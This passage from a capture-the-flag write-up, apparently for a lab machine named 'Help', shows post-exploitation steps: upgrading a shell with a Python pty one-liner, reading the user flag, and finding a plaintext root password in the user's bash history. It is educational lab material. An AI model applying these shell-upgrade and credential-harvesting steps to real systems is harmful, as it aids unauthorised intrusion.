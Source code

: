 We have a shell! Let's use the python trick to get a bash shell as simply invoking bash with "/bin/bash" won't work:

```text
$ python -c 'import pty;pty.spawn("/bin/bash")'
help@help:/$ echo $0
echo $0
/bin/bash
```

The service we exploited to give us a shell was running as the user "help", so let's verify and see if we can get the first objective; the user flag:

```text
help@help:/$ cat /home/help/user.txt
bb8a7b36bd{truncated} <--- We got user!
```

## Privilege Escalation

Great, the first half of the challenge is over. Now to work on escalating our privileges and obtaining root access on the victim machine. Typically the first thing I do is look in the home directory of the user I'm logged in as:

```text
help@help:/home/help$ ls -lah
ls -lah
total 76K
drwxr-xr-x   7 help help 4.0K Jan 11 06:07 .
drwxr-xr-x   3 root root 4.0K Nov 27  2018 ..
-rw-rw-r--   1 help help  272 Jan 11 06:17 .bash_history
-rw-r--r--   1 help help  220 Nov 27  2018 .bash_logout
-rw-r--r--   1 root root    1 Nov 27  2018 .bash_profile
-rw-r--r--   1 help help 3.7K Nov 27  2018 .bashrc
drwx------   2 help help 4.0K Nov 27  2018 .cache
drwxr-xr-x   4 help help 4.0K May 26 23:24 .forever
-rw-------   1 help help  442 Nov 28  2018 .mysql_history
drwxrwxr-x   2 help help 4.0K Nov 27  2018 .nano
drwxrwxr-x 290 help help  12K Jan 11 05:53 .npm
-rw-r--r--   1 help help  655 Nov 27  2018 .profile
-rw-rw-r--   1 help help   66 Nov 28  2018 .selected_editor
-rw-r--r--   1 help help    0 Nov 27  2018 .sudo_as_admin_successful
-rw-rw-r--   1 help help  225 May 31 14:03 .wget-hsts
drwxrwxrwx   6 root root 4.0K Jan 11 05:53 help
-rw-rw-r--   1 help help  946 Nov 28  2018 npm-debug.log
-rw-r--r--   1 root root   33 Nov 28  2018 user.txt
```

The ".sudo_as_admin_successful" file tells us the user had sudo access at some point. We also see the user's bash history file ".bash_history" is present. Let's look at it:

```text
help@help:/home/help$ head .bash_history
head .bash_history
sudo mkdir lol
ls -la
cat .bash_history 
rm -rf .bash_history 
touch .bash_history
ls -la
su
su
rOOTmEoRdIE
su
```
